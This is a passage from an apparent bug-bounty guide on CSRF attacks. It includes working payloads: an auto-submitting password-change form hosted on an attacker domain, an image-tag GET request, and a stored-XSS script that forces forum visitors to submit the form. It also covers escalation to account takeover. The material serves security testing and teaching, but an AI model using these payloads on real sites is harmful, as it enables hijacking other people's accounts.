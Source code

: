 And on `example.attacker.com`, host an auto-submitting form to execute the CSRF:

    <html>
        <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
            <input type="text" name="new_password" value="this_account_is_now_mine">
            <input type='submit' value="Submit">
        </form>
        <script>document.getElementById("csrf-form").submit();</script>
    </html>

For CSRFs executable via a `GET` request, try to embed the request as an image directly, for example, as an image posted to a forum.

    <img src="https://email.example.com/set_password?new_password=mine">

Or deliver a CSRF payload to a large audience by exploiting `stored-XSS`. If the forum comment field suffers from this vulnerability, an attacker can submit a `stored-XSS` JS payload there to make any forum visitor execute the attacker’s malicious script.

    <script>
        document.body.innerHTML += "
            <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
                <input type="text" name="new_password" value="mine">
                <input type='submit' value="Submit">
            </form>";
        document.getElementById("csrf-form").submit();
    </script>

This way, you can show companies how attackers can realistically attack many users and demonstrate the maximum impact of the found CSRF vulnerability. If you have Burp Suite Pro, or use Zap, you can also take advantage of their CSRF POC-generation functionalities.

## Escalation

While the majority of CSRFs are low-severity issues, sometimes a CSRF on a critical endpoint can lead to severe consequences. Escalate CSRFs into severe security issues to maximise their impact.

CSRF can sometimes cause [information leaks](disclosure.md) as a side effect. Applications often send or disclose information according to user preferences. If you can change these settings via CSRF, you can pave the way for sensitive information disclosures.

[Self-XSS](xss.md) is a kind of XSS attack that requires the victim to input the XSS payload. These vulnerabilities are almost always considered a nonissue because they’re too difficult to exploit; doing so requires a lot of action from the victim’s part, and thus you’re unlikely to succeed. But, when you combine CSRF with self-XSS, you can often turn the self-XSS into stored XSS.

Account takeovers are possible when a CSRF vulnerability exists in critical functionality, like the code that creates a password, changes the password, changes the email address, or resets the password.

As an example, assume that in addition to signing up by using an email address and password, `example.com` also allows users to sign up via their social media accounts. If a user chooses this option, they’re not required to create a password, and they can log in via their linked account. To give users another option, those who’ve signed up via social media can set a new password via the following request:
